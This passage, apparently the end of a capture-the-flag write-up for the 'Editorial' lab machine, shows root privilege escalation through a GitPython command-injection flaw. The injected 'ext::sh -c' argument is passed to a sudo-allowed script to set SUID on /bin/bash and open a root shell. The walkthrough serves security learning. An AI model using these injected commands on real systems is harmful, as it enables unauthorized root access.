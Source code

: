 Looking into GitPython vulnerabilities I find: https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

We can test for this using:

```
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/testing'
```

Which works and creates a file in `/tmp` called testing:

```
prod@editorial:/opt/internal_apps/clone_changes$ ls -la /tmp/testing
-rw-r--r-- 1 root root 0 Mar  5 19:29 /tmp/testing
```

Let's abuse this for a root shell by setting the SUID on Bash:

```
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /bin/chmod% 4755% /bin/bash'
```

We can then run:

```
prod@editorial:/opt/internal_apps/clone_changes$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# hostname
editorial
```

And grab the final flag:

![htb_editorial_root.png](../assets/editorial_assets/htb_editorial_root.png)

Thanks for following along!

-Ryan

-------------------------------------------
